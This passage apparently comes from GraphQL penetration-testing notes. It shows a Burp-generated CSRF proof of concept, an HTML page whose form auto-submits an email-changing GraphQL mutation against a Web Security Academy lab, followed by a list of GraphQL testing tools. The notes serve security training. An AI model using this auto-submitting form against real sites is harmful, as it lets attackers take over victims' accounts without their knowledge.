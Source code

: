 PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9000830411fa9880e73aad007700b4.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;&#123;&#10;&#9;changeEmail&#40;input&#58;&#123;email&#58;&#32;&quot;0xbro&#46;hack&#64;done&#46;it&quot;&#125;&#41;&#32;&#123;&#10;&#9;&#9;email&#10;&#9;&#125;&#10;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Tools

- [InQL](https://github.com/doyensec/inql)
- [GraphQL Visualizer](http://nathanrandal.com/graphql-visualizer/)
- [clairvoyance](https://github.com/nikitastupin/clairvoyance) (for enumeration when introspection is not enabled)

[^1]: https://escape.tech/blog/pentest101/
[^2]: https://escape.tech/blog/pentesting102/
[^3]: https://escape.tech/blog/pentest103/